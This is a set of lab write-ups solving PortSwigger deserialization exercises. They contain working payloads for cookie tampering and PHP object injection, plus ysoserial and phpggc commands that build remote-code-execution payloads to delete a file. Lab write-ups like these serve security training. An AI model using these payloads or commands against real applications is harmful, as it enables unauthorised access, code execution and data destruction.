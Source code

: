 ## Modifying serialized objects

[Modifying serialized objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)

Write-up:

1. Logging in sets a session cookie: `TzTzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

2. Base-64 decoding this gets us `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`
Altering the admin value to 1, re-encoding the cookie and changing it in the lab
gets us admin access. Accessing the admin panel allows us to delete user `carlos`
and solve the lab. 

## Modifying serialized data types

[Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

Write-up:

1. Session cookie after login: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1NHRhNjMzdnNyM3p2NHVpYjdrYW92aTNta284NXVhOCI7fQ%3d%3d`. 

2. Base-64 decoding this gets us: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u4ta633vsr3zv4uib7kaovi3mko85ua8";}`

3. Crafting the following payload, base-64 encoding it and setting session cookie gets us admin access and allows us to delete user `carlos` and solve the lab:

    `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`

## Using application functionality to exploit insecure deserialization

[Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

Write-up:

1. Decoded session cookie after login as `wiener:peter`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

2. We craft a payload to delete `morale.txt`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:10:"morale.txt";}`

3. Re-encoding it, setting as session cookie and deleting our account allows us to solve the lab.

## Arbitrary object injection in PHP

[Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Write-up:

1. Looking at the source code of `/my-account` we find the following: `<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->`
Attempting to use a GET request to get that file returns nothing. We can use the
hint given and access `libs/CustomTemplate.php~` to retrieve the source code.

    ```php
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```

2. We can use the ``__destruct()`` function to solve the lab: 
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

    Setting the `lock_file_path` attribute to `/home/carlos/morale.txt` allows us to
    delete that file once the script is executed (by a GET request to `/libs/CustomTemplate.php`).

3. After base-64 and URL encoding (in that order) the object and setting it as the session cookie, we can make
the GET request to solve the lab:   `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D`

## Exploiting Java deserialization with Apache Commons

[Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

Write-up:

1. We need to use `ysoserial` to solve this lab. After looking at the documentation,
I was able to use the following command to craft an exploit payload:

    ```
    java -jar ysoserial-all.jar \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
    --add-opens=java.base/java.net=ALL-UNNAMED \
    --add-opens=java.base/java.util=ALL-UNNAMED \
    CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    ```

    This generates a base64 payload.

2. We can use URL-encode the payload, set it as session cookie, and send a request
to solve the lab.

## Exploiting PHP deserialization with a pre-built gadget chain

[Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

Write-up:

1. We need to find out which framework the application is using. Analyzing the page's
source code shows us a reference to `/cgi-bin/phpinfo.php`. Also, sending a request with 
an invalid cookie shows us an error message that discloses that the web application
is using Symfony Version: 4.3.6.

2. We can use `PGPGGC` to get an exploit: `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0`
URL-encoding the exploit, setting it as session cookie and sending a request returns an
error: `PHP Fatal error: Uncaught Exception: Signature does not match session`.

3. After further research, I found out the session cookie was a bit more complex.
URL-decoding it reveals:

    ```json
    {
        "token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsdHNiczVmMTU5dmw3ZmZya29jeDlvNGFidnk1bnBiayI7fQ==",
        "sig_hmac_sha1":"39aa1851b62e717d8daf90e88376fa455f1c21dc"
    }
    ```

    It has a token, which corresponds to the object, and a signature, which is a hash
    that involves the object and the SECRET-KEY in `/cgi-bin/phpinfo.php`. We can
    craft a script to get us a valid cookie: `php-cookie.php`

4. Setting the script's output as the session cookie solves the lab. 
